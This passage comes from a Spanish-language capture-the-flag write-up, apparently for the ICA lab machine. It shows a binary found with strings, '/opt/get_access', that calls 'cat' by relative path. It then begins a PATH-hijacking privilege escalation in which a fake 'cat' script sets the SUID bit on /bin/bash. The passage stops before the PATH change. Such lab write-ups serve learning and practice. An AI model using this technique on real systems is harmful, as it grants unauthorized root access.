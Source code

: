 Nos llama la atención el primer resultado, `/opt/get_access`, vamos a echarle un vistazo

Al ejecutarlo nos sale esto:

```
dexter@debian:~$ /opt/get_access 

  ############################
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################

  Server Information:
   - Firewall:	AIwall v9.5.2
   - OS:	Debian 11 "bullseye"
   - Network:	Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.

dexter@debian:~$
```

Usaremos el comando **strings** para ver las cadenas de caracteres imprimibles que contenga el archivo `/opt/get_access`

```
$ string /opt/get_access

_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
cat /root/system.info
Could not create socket to access to the system.
All services are disabled. Accessing to the system is allowed only within working hours.
;*3$"
```

Nos llama la atención la línea en la que pone "cat /root/system.info" y sabemos que el ejecutable está usando el comando **cat** de forma relativa, lo que nos permite hacer una **PATH HIJACKING** 

El primer paso será dirigirnos a un directorio donde tengamos permisos de escritura (en mi caso /tmp y vamos a crear un ejecutable llamado cat)

Contenido del script:

```
#!/bin/bash

chmod u+s /bin/bash
```

En él le estamos dando permiso SUID a **/bin/bash**

Ahora vamos a modificar el PATH de la siguiente forma:

